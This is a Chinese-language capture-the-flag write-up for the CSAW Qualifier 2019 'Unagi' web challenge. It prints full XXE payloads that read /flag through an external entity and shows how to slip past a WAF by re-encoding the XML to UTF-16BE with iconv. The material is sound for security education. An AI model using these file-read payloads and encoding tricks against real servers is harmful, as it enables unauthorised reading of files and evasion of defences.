 # [CSAWQual 2019]Web_Unagi

## 知识点

`xxe`

`编码绕过WAF保护的XXE`

## 解题

![](./img/[CSAWQual2019]Web_Unagi-1.png)

`About`提示`flag`在`/flag`文件，进入`Upload`发现可以上传文件，给了个上传文件的示例

![](./img/[CSAWQual2019]Web_Unagi-2.png)

![](./img/[CSAWQual2019]Web_Unagi-3.png)

先尝试上传正常文件看一下回显

![](./img/[CSAWQual2019]Web_Unagi-4.png)

除了`username`和`password`列都会显示，尝试利用`xxe`

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

![](./img/[CSAWQual2019]Web_Unagi-5.png)

被`WAF`拦下来了，可以通过`编码`绕过`WAF`，[参考文章配枪朱丽叶](https://www.shawroot.cc/156.html)

> 一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
>
> 在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。

在`linux`使用`iconv`转编码

`1.xml`的内容

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

转`编码`为`UTF-16BE`

```bash
iconv 1.xml -f UTF-8 -t UTF-16BE -o 2.xml
```

然后上传`2.xml`，发现可以正常绕过，但是`flag`显示不全

![](./img/[CSAWQual2019]Web_Unagi-6.png)

加个`intro`元素即可

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>&xxe;</name>
<email>&xxe;</email>
<group>&xxe;</group>
<intro>&xxe;</intro>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

![](./img/[CSAWQual2019]Web_Unagi-7.png)